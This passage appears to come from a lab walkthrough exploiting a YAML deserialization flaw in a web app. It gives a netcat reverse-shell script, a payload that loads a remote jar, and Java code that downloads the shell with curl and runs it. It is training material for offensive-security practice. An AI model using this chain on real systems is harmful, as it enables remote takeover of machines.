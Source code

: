 ```
nano /home/user/payload/www/shell.sh
```
> Note: Notice the use of port `8000` this time. 

```bash
#!/bin/bash

rm /tmp/f;
mkfifo /tmp/f;
cat /tmp/f | /bin/sh -i 2>&1 | nc <kali-ip-address> 8000 > /tmp/f
```

> Note: This script was generated by [revshells](https://www.revshells.com/). It is possible to use a different script. The above is just a working example.

13. Let's now move the `yaml-payload.jar` we created earlier to the same folder as the `shell.sh` script: 

```bash
mv /home/user/payload/yaml-payload.jar /home/user/payload/www/
```

14. Let's move inside the `www` directory for the next steps:

```bash
cd /home/user/payload/www/
```

15. The next step is to host these files locally making sure to use port `8080`. We can use python for this: 


```bash
python3 -m http.server 8080
```

16. Now, in a new terminal, start a Netcat listener on port `8000`:

```bash
nc -lvp 8000
```

17. Now, go back to `http://10.5.5.85:8080` and make sure the following is entered in the text box (Remember to change `<kali-ip-address>` with your Kali VM IP address and, also note that we are now providing the port `8080` and, we are also adding the payload file, `yaml-payload.jar`): 

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://<kali-ip-address>:8080/yaml-payload.jar"]
  ]]
]
```

**The above will need to be submitted twice.** 

The snippet below is just to reference the code you wrote on `/home/user/payload/src/artsploit/AwesomeScriptEngineFactory.java` to see the reason why this needs to be submitted twice:

```java
public AwesomeScriptEngineFactory() {
    try {
        // First Run
        Runtime.getRuntime().exec("curl <kali-ip-address>:8080/shell.sh -o /tmp/shell.sh");
        // Second Run
        Runtime.getRuntime().exec("bash /tmp/shell.sh");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```
